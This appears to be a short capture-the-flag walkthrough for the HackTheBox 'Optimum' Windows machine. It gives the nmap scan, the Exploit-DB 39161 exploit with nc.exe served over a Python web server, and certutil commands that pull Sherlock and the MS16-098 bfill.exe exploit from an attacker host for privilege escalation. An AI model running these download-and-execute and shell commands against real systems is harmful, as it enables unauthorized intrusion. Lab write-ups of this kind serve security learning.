







# Enumeration
- We use `nmap -p- -A -Pn 10.10.10.8` to enumerate:
- We found a website:
# Exploitation
- We used the exploit https://www.exploit-db.com/exploits/39161 we need nc.exe 
- we can find it in /usr/share/windows-resources/binaries/nc.exe and paste it into our Downloads/optimum folder
- We modify the ip in the exploit file
- `python3 -m http.server 80` and host our current directory for the nc.exe file
- We keep running the exploit with `python 39161.py 10.10.10.8 80` to get the shell:
- Then we upload sherlock(https://github.com/rasta-mouse/Sherlock) using `certutil -urlcache -f http://10.10.14.25/sherlock.ps1 sherlock.ps1` 
- Then use it to look for vulnerabilites using: `powershell.exe -exec bypass -Command "& {Import-Module .\sherlock.ps1; Find-AllVulns}"` : 
- We can also use wesng(https://github.com/bitsadmin/wesng)
- We use https://github.com/sensepost/ms16-098/blob/master/bfill.exe to get privilege escalation by uploading the file first `certutil -urlcache -f http://10.10.14.25/bfill.exe bfill.exe` and then executing it `bfill.exe`: We get a root shell.